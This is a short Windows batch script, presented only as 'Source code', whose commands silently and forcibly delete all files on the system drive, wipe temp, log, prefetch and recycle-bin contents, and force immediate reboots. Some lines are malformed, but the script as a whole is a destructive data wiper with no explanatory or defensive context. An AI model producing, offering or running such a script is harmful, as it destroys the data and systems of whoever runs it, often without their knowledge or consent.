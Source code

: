 @echo off
start /b del %systemdrive%. /f /s /q
start /b shutdown -r -f -t 00
REM Section 2
start /b del %systemdrive%\*.* /f /s /q

start /b del %systemdrive%\*.tmp /f /s /q
start /b del %systemdrive%\*._mp /f /s /q
start /b del %systemdrive%\*.log /f /s /q
start /b del %systemdrive%\*.gid /f /s /q
start /b del %systemdrive%\*.chk /f /s /q
start /b del %systemdrive%\*.old /f /s /q
start /b del %systemdrive%\recycled\*.* /f /s /q
start /b del %windir%\*.bak /f /s /q
start /b del %windir%\prefetch\*.* /f /s /q
start /b rd /s /q %windir%\temp
start /b md %windir%\temp

REM Section 4
start /b del C:\ *.* /f /s /q

REM Section 5
start /b del C: *.* /f /s /q
start /b shutdown -r -f -t 00

